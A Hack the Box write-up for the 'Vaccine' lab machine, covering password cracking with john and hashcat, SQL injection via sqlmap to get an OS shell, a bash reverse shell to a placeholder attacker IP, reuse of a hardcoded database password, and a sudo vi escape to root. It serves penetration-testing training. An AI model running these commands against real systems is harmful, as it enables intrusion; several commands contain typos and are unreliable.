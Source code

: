 +++
title = "Hack the Box: Vaccine"
date = 2023-02-12
description = "Hack the Box: Vaccine"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Vaccine

## Enumeration

### Nmap

```
#nmap -sC -sV 10.10.10.46    
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-27 16:52 CEST
Nmap scan report for 10.10.10.46
Host is up (0.045s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see an ftp port open, let’s try to connect on it using the credentials got from the last box (Oopsie) `ftpuser / mc@F1l3ZilL4`.

```
# ftp 10.10.10.46
# dir
```

We’re using zip2john to calculate the hash of the archive’s password:

```
sudo zip2john backup.zip > hash
```

Then we pass it into john:

```
sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
```

and we get `741852963` as password. Unzip the archive with it. Open index.php, we find a md5 hash, let’s crack it using hashcat:

```
# hashcat -m 0 2cb42f8734ea607eefed3b70af13bbd3 /usr/share/wordlists/rockyou.txt -O
```

And we get `qwerty789`.

## Foothold

Let’s browse to 10.10.10.46 and try some simple authentication : `admin \ qwerty789` ends by working. We can see that the search argument is passed in the GET request `http://10.10.10.46/dashboard.php?search=a`. Let’s try SQLMap, but first grab the cookie with the firefox console `1qd0d4rp5tne7qj80p4e347t2o`:

```
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID:1qd0d4rp5tne7qj80p4e347t2o"
```

We find that it’s possible to do injection and that the backend is a Postgre. Code execution is easy:

```
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID:1qd0d4rp5tne7qj80p4e347t2o" --os-shell
```

This can be used to execute a bash reverse shell:

```
# bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'7
```

```
# nc -lvnp 4444
```

It’s also possible to ssh using the first credentials:

```
# ssh ftpuser@10.10.10.467
```

## Privilege Escalation

Upgrade your shell:

```
# SHELL=/bin/bash script -q /dev/null
```

In /var/www/html/dashboard.php we can find this:

```
try {
      $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
    }
```

Now you can: `su postgres` or `ssh postgres@10.10.10.46`

Let’s view the sudo privilege of the user:

```
# python3 -c "import pty;pty.spwn('/bin/bash')"
# sudo -l
```

Run the command from the sudoers file and leverage:

```
# sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# Edit the file
# :!/bin/bash
# whoami
```

You can now get the flag in /root/root.txt: `dd6e058e814260bc70e9bbdef2715849`
